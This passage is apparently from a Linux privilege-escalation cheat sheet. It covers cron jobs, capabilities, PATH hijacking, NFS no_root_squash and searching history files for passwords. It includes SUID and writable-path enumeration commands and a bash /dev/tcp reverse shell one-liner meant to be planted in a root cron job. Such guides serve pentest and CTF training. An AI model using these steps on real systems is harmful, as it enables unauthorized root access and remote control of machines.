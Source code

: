 ```find / -type f -perm -04000 -ls 2>/dev/null```
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Ideally cron jobs are not really exploitable but if some job is accesible then attacker can change it to gain reverse shell.
```bash -i >& /dev/tcp/$ip/$port 0>&1```

Hopefully this will return reverse shell on port you're listening.
 - --
 ## Capabilities
 Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.

Use this command to find capablities.
``` getcap -r / 2>/dev/null ```

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

Keep exploiting as it will take few tries.
- --
## Path
If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable were are talking about here, path is the location of a file).

First check writable folder.
```find / -writable 2>/dev/null```
or 
```find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u```

Them add folder to PATH which your exploit lies in.
And excute exploit or wait if it runs itself.

Watch this [Youtube video](https://youtu.be/X_ixKHvOpJQ) for detailed explanation.
- --
## NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

Watch [Youtube video](https://youtu.be/vnB7aDzcScg) for detailed explanation.
- --
## Passwords & Keys - History Files & Config Files 
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:

```